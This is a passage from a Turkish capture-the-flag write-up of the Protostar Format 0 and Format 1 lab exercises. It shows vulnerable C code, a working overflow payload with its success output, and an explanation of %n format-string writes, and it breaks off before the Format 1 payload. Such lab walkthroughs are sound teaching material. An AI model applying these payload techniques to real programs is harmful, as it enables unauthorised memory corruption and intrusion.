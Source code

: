 ```c
  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
Burada main fonksiyonu verdiğimiz argüman ile vuln fonksiyonunu çağırmış ve içeride 64 bytelık buffer ve integer tipinde target tanımlamış. Ardından sprintf ile buffer ve string içeriğini ekrana basıyor. Bizden istediği ise target'ı deadbeef yapmak. Aslında bu aşamanın bufferoverflow sorusundan pek bi farkı yok. Biz buffer'ı doldurduktan sonra kendisinden önce target tanımlandığı için string değişkenine verdiğimiz değer target'ın üzerine yazmış olacak.Deneyelim:
```bash
user@protostar:/opt/protostar/bin$ ./format0 $(python -c 'print "A"*64 + "\xef\xbe\xad\xde"')
you have hit the target correctly :)
```
Evet beklenen şekilde işlem gerçekleşti ve bu aşamayı geçmiş olduk.

## Format 1
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
Burada target'ımız global olarak tanımlanmış. Önceki aşamada yazacağımız hedef bufferın hemen altındaydı ama bu sefer stackde baya aşağılara gideceğiz. Ayrıca hedefe spesific bir değer yazmamız istenmemiş bu yüzden değeri herhangi bir şey ile ezsek yeter. Burada devreye `%n` format spesifierı giriyor. Bu format spesifier kendisine gelinene kadar yazılan verinin uzunluğunu alıp stackden çekilen adrese gidip yazıyor. (bu zaten videoda da anlatılmıştı, izlemediyseniz gidin izleyin :D)
Yani biz stack'e hedef adresi(yani target değişkeninin adresini) yazar ve oraya geldiğimiz noktada verdiğimiz inputta %n koyarsak ne olur? O ana kadar yazılan verinin uzunluğunu stacke yerleştirmiş olduğumuz adrese gidip yazar. E stack'e bu adresi nasıl yazcaz? Verdiğimiz input zaten stacke yazıldığı için argümanın içerisinde yollayacağız. (baya karışık anlattım :/) Mesela:

